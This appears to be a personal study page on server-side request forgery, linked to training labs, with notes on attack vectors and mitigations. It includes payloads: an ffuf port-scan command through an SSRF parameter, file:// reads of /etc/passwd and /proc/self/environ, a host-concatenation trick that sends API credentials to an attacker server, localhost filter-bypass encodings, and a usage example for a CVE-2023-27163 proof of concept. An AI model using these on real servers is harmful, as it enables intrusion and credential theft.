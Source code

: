 # Server-Side Request Forgery (SSRF)

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![adventofcyber2](../../../../_badges/thm/adventofcyber2/day19.svg)](https://tryhackme.com/room/adventofcyber2)
[![testingforssrf](../../../../_badges/owasp/testingforssrf.svg)](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery)
[![server_side_request_forgery](../../../../_badges/poat/server_side_request_forgery.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

<div class="row row-cols-lg-2"><div>

Server-Side Request Forgery (SSRF) is an attack in which a hacker can make a server request something from another server, usually an internal server or an API.

From instance, a website using an API. If there is a SSRF vulnerability, the hacker may be able to query the API by exploiting the website.

Common attack vectors

* 📚 Headers <small>(mostly User-Agent)</small>
* 📄 Forms <small>(internal API calls)</small>
* 🍪 Cookies
* 🌍 Remote connections <small>(imports, file processing, etc.)</small>
</div><div>

Common usages are:

* Port mapping
* Firewall by-pass
* Steal sensitive data

There are two kinds of SSRF

* **Regular/in-band SSRF**: the client will see the result
* **Blind/out-band SSRF**: nothing is returned to the client

Refer to [request grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md) to catch requests.
</div></div>

<hr class="sep-both">

## Common payloads

<div class="row row-cols-lg-2"><div>

#### Forms

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

A common scenario is a [PHP](/programming-languages/web/php/_general/index.md) call to `file_get_contents` to access a remote file. You have similar functions in other languages.

**Mapping ports/services** 🗺️

You may inject URLs such as `http://localhost:22` to test if the port `22` is open. You could also make the server call `http://ifconfig.pro/` to get some information <small>(IP, DNS...)</small>.

```
$ seq 1 65535 > ports.txt
$ ffuf -w ports.txt -u 'http://IP/?xxx=http://127.0.0.1:FUZZ' -fr 'Connection refused'
```

**Steal files** 💰

You may inject URLs to steal a file. For instance, a URL using the file protocol: `file://some/file/on/the/target`.

* `/etc/passwd`
* `/proc/self/environ`

You could also try to connect to your FTP server using `ftp://`.
</div><div>

#### URL

[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

**Access another untended path** ✂<br> `a?api=path` $\to$ `b/path`

In that case, you could guess that the first server A is mapping the value given to `api` to the server b. You may try to inject the path, and see if you can access other API routes.

**Steal API credentials** 🗝️<br> `a?api=xxx&r=path` $\to$ `xxx.b/path`

If the programmer is using user input to determine which server will be queried, then the hacker may try to send the request to their servers instead, and get the API credentials inside the headers.

For instance, with the `api=xxx`, a normal request could be sent to `xxx.thebestapi.com/path`. But, if a hacker uses `api=malicious_website.com?&ignore=`, then the URL crafted is `malicious_website.com?&ignore=.thebestapi.com/path`. Notice that the request is now sent to another website, and the concatenated domain name is now the value of `ignore`.
</div></div>

<hr class="sep-both">

## Mitigations 🛡️

[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

<div class="row row-cols-lg-2"><div>

**Allow List/Whitelist**

It's usually the better way. But, if there is a condition like `the URL must start with https://example.com`, then it can be bypassed with `https://example.com.malicious.website`.

**Others**

* Check that the resource type is what was expected
* ...

</div><div>

**Deny list/Blacklist**

You may allow every IP aside from some such as localhost (127.0.0.1), or 169.254.169.254 in a cloud environment, but there are usually a lot of ways to bypass such filters.

For instance, `0`, `00`, `000[...]0`, `0.0.0.0`, `127.1` (IP shortening), `2130706433` (decimal), `017700000001` (octal), and many more such as [127.0.0.1.nip.io](http://127.0.0.1.nip.io)/[localtest.me](http://localtest.me)/[lvh.me](http://lvh.me) are all resolving to `127.0.0.1`.
</div></div>

<hr class="sep-both">

## Example CVEs

<div class="row row-cols-lg-2"><div>

#### CVE-2023-27163

[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

CVE in [request-baskets](https://github.com/darklynx/request-baskets). [POC (shell script)](https://github.com/entr0pie/CVE-2023-27163) <small>(0.02k ⭐)</small>.

```shell!
$ ./CVE-2023-27163.sh http://target:port http://listener:port 
Creating the "<backet>" proxy basket...
Basket created!
$ curl http://target:port/<backet> # send to listener
```

It can be used to access a resource behind a firewall.

```ps
$ ./CVE-2023-27163.sh http://target:port http://target:port2 
```
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Other attack vectors

* avatar form
* a script
* a header
* ...
</div><div>

* Blind SSRF (requestbin/burp collaborator)
</div></div>